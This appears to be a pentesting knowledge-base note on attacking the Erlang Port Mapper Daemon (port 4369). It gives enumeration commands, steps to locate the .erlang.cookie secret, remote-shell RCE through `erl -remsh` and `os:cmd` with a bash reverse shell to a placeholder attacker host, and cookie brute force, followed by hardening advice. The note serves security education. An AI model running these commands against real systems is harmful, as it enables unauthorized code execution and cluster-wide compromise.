

# 57 - Erlang Port Mapper Daemon / epmd (Port 4369) Pentesting

## 1. Executive Summary

epmd (Erlang Port Mapper Daemon) coordinates distributed Erlang nodes — it maps Erlang node names to the TCP ports their distribution listeners use, on **TCP 4369**. It runs by default under **RabbitMQ and CouchDB**. The headline attack is the **Erlang cookie → RCE**: distributed Erlang nodes authenticate to each other with a shared secret, the **Erlang cookie** (`~/.erlang.cookie`, a random 20-char A–Z string if not set manually). Leak or brute that cookie and you can attach a remote shell (`erl -remsh`) to the node and **execute arbitrary code** as the Erlang process user.

## 2. Protocol Overview & Architecture

epmd answers "what port does node X listen on?" Once you know the distribution port, you connect as another Erlang node — but the handshake requires the matching **cookie**. All nodes in a cluster share one cookie. Weak/default cookies (or one leaked from a readable `~/.erlang.cookie`, config, or backup) let an attacker join the cluster and call any Erlang function, including `os:cmd/1` → command execution.

## 3. Enumeration & Footprinting

```bash
nmap -sV -Pn -n -T4 -p 4369 --script epmd-info <IP>
# epmd-info lists registered node names + their distribution ports
epmd -names              # if you have local/tunneled access
```

## 4. Exploitation Deep Dive

### 4.1 Cookie Discovery
Look for the cookie wherever you have any foothold:
```bash
cat ~/.erlang.cookie
find / -name .erlang.cookie 2>/dev/null
# RabbitMQ often: /var/lib/rabbitmq/.erlang.cookie
```

### 4.2 Remote Shell → RCE
With the cookie + node name (from epmd-info), attach and run commands:
```bash
erl -cookie <LEAKED_COOKIE> -name attacker@<your-ip> -remsh <node>@<target.fqdn>
# in the Erlang shell:
os:cmd("id").
os:cmd("bash -c 'bash -i >& /dev/tcp/<ATT>/4444 0>&1'").
```

### 4.3 Cookie Brute Force
If unknown, brute the 20-char cookie (feasible only against weak/short custom cookies) with an Erlang cookie bruteforcer; default random cookies are not practically brute-forceable, so prioritise leaking the file.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- RCE as the Erlang service user (often the RabbitMQ/CouchDB account).
- One cookie = whole Erlang cluster → lateral movement across nodes.
- Loot RabbitMQ/CouchDB data and configs.

## 7. Defense & Hardening
1. Set a long, random, secret Erlang cookie; restrict `~/.erlang.cookie` to `600` perms.
2. Firewall epmd (4369) and the distribution port range to cluster nodes only.
3. Use TLS for Erlang distribution; isolate the cluster network.
4. Don't expose RabbitMQ/CouchDB clustering ports to untrusted nets.

## 8. Chaining Opportunities
- Often co-located with **[[53 - RabbitMQ Management (Port 15672) Pentesting]]** / **[[16 - CouchDB (Port 5984) Pentesting]]**.
- RCE → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[53 - RabbitMQ Management (Port 15672) Pentesting]]

## 10. Tools
`nmap` epmd-info, `epmd -names`, `erl -remsh`, Erlang cookie bruteforcer.
